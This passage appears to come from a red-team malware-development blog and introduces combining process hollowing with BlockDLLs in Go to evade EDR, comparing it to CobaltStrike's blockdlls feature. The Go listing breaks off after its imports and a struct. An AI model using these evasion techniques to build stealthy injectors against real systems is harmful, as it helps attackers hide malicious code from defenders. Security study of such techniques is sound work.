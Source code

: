 <img src="https://raw.githubusercontent.com/D3Ext/d3ext.github.io/main/images/redteam/practice16/demo-2.png" alt="pic" alt="pic">

As you can see in the picture, it works as expected.

# Process Hollowing + BlockDLLs

To make this technique even more OPSEC and powerful we can also protect our process from non-Microsoft signed DLLs like ***CobaltStrike*** does with the `blockdlls` feature

I won't dig deep on how this technique works as I already wrote a post about this some time ago so take a look at it [here](https://d3ext.github.io/posts/malware-dev-9/) if you want to. Basically, we have to leverage certain system calls before creating the process by specifying some special flags.

The main code will be like this:

```go
package main

import (
  "fmt"
  "log"
  "unsafe"
  "encoding/binary"
  "golang.org/x/sys/windows"
)

type PROCESS_BASIC_INFORMATION struct {
	Reserved1    uintptr
```